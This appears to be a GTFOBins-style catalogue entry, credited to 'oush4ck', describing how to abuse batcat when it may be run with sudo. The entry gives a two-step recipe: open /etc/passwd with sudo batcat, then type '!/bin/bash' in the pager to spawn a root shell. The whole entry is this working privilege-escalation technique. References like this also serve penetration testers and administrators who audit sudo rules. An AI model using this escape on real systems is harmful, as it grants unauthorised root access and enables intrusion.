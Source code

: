 ## Found by oush4ck
---
functions:
  sudo:
    - code: |
        sudo batcat /etc/passwd
        In the paginated mode write:
        !/bin/bash
---
